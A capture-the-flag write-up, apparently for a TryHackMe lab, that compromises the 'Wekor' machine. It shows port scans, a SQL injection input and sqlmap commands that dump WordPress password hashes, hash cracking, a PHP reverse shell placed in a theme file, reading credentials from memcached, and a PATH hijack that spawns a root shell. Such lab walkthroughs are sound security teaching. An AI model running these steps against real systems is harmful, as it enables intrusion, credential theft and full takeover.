# Wekor 

### Description

- Difficulty: medium
- O.S: Linux
### Connectivity

First we add wekor.thm to the /etc/hosts file.



To check if I have access to the machine I pinged onces to the domain name.



With the ttl I asume that I'm in front of a linux machine.

### Port enumeration

To see which ports are open and what services are running in this machine I did a nmap scan.

```bash
nmap <IP> --open -sS -p- --min-rate 5000 -Pn -n -vvv -oG allports
```



```bash
nmap <IP> -p22,80 -sCV -oN targeted
```



The results of the scan are:

- 22 <- ssh - I don't have credentials now so I can't do anything.
- 80 <- http - Web page

### Web enumeration

I put the domain and the ip in the browser and the web page doesn't change, the main page looks like this:



Next step is looking for directories in the web, for do that i'm going to use gobuster.

```bash
gobuster dir -u http://wekor.thm/ -w /usr/share/wordlists/dirb/common.txt -t 200
```


The results show the /robots.txt directory.




The only directory that works is the /comingreallysoon and it sais to look the /it-next directory

The /it-next directory look like this:


### Exploitation

I navigated to http://wekor.thm/it-next/it_cart.php and I see a cupon panel, I appliqued the ' or 1 = 1 -- - and show me this error.



To see is is vulnerable I captured the post request and I executed sqlmap.

```bash
sqlmap -r post.txt
```



Sqlmap shows the coupon-code parameter is vulnerable.

To show databases:

```bash
sqlmap -r post.txt -dbs
```



wordpress database took my attention so I'm going to list tables

```bash
sqlmap -r post.txt -D wordpress --tables
```



I'm going to dump the wp_users table

```bash
sqlmap -r post.txt -D wordpress -T wp_users --dump
```

The result is some users and password hashes and a subdomain http://site.wekor.thm/wordpress so I added to the hosts file.

The page looks like this:



I have 4 users and no passwords, so I cracked the hashes and I logged to te wordpress with the wp_yura user, I'm now in the admin panel.

```bash
john hash.txt --wordlist:/usr/share/wordlists/rockyou.txt
```



If i go to Appearance  -> Theme editor and i edit the 404.php to put a php reverse shell and then select it in the browser I can have access to the machine with user www-data so I did it.




I set a listener and I have access to the machine.



### Privilege escalation

I see the machine is doing some connection to the 11211 service.



I search some information to see whats running and in the 11211 port usually runs memcached, this is used for speed up dynamic web applications, I can connect this service with telnet.

```bash
www-data > telnet 127.0.0.1 11211
```

```bash
get username
get password
```

Doing this I found the credentials for the user Orka.

Now I can see the user flag.

For become root I can execute the /home/Orka/Desktop/bitcoin like root without giving password, I realize this script uses 'python transfer.py', so I just do a classic PATH hijacking, for do that I made a python named file in the /usr/sbin because is a directory in the path and will be executed before the real python.

```bash
cd /usr/sbin
touch python
echo '#!/bin/bash\n/bin/bash -p' >> python
```

With this done I executed the bitcoin script and I become root.



### Lessons learned

- Web pages panel are often vulnerables to SQLI and can cause leak of sensitive data.
- The use of not strong passwords can cause brute force attacks.
- The use of relative rutes in script is a very dangerous and can cause a full root control.